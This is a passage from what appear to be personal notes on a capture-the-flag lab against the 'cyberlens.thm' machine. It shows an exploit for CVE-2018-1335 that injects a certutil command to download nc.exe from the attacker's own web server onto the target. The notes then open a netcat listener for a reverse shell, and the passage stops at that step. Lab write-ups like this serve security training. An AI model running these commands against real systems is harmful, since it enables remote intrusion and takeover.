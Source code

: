 <img src="../../Flameshots/4511444b8ec50492621a4c8d827e69f2.png" alt="4511444b8ec50492621a4c8d827e69f2.png" width="353" height="155" class="jop-noMdConv">

We can copy it in a file in our working dir and execute it with [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) 3 :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py       
Usage: python3 CVE-2018-1335.py <host> <port> <command>
Example: python3 CVE-2018-1335.py localhost 9998 calc.exe

```

So we need a command and we need a shell so we need to install [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) on the [Vulnerable Machine](../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md) by `locate nc.exe` and then `cp path/nc.exe .` and hosting a simple web server :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Now we transfer :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "certutil -urlcache -f http://10.8.162.183:8080/nc.exe C:/Users/Public/nc.exe"

```

We should see that in the server :

```
──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 12:39:40] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:42] "GET /nc.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

```

### Netcat - Reverse Shell

We can close it and open a [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```
──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...

```
